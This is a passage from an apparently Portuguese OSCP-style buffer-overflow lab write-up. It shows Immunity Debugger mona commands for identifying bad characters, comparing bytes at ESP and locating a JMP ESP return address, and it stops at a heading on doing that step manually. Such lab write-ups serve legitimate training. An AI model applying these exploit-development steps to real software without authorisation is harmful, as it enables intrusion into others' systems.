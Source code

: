 ![image](https://github.com/user-attachments/assets/6e692714-f07a-4661-a738-4ec852e826f5)
```text
!mona bytearray -b "\x00\x07\x2e"
```
- Alterando o payload e tirando o 2e  
![image](https://github.com/user-attachments/assets/32d03626-8ae9-444b-aa4f-2f87459012a9)
- Repetindo o processo
- Executando o programa
- Executando o script
- ESP – 0199FA30
```text
!mona compare -f C:\mona\oscp\bytearray.bin -a  0199FA30
```
![image](https://github.com/user-attachments/assets/0239f305-49e5-4285-bc2d-6eb39d5c74d8)
```text
!mona bytearray -b "\x00\x07\x2e\xa0"
```
- Alterando o payload e tirando o a0  
- Repetindo o processo
- Executando o programa
- Executando o script
- ESP – 0188FA30
```text
!mona compare -f C:\mona\oscp\bytearray.bin -a  0188FA30
```
![image](https://github.com/user-attachments/assets/b02045f3-7a99-43af-b6b4-8dc300147b71)
- Sem mais BadChars ou seja
- Temos: 00 07 2e a0

Obs: Podemos fazer manualmente sem o mona
- Clicamos no valor de ESP com o botão direito e em "Follow in Dump" e verificamos o valor um por um para ver qual não foi enviado, ou seja, é um bad char. Retiramos o mesmo do payload e repetimos o processo.
---

## 🔄 Encontrando um Ponto de Salto

Procuramos um **JMP ESP** válido - não esqueça de atualizar a opção -cpb com todos os badchars que você identificou (incluindo \x00)::
```text
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
![image](https://github.com/user-attachments/assets/df5724fd-db30-4135-9a56-58ed705292a3)

Selecionamos um endereço sem ASLR e colocamos no exploit (retn):
```python
retn = "\x05\x12\x50\x62"
```

## 🔄 `JMP ESP` Manualmente no Immunity Debugger
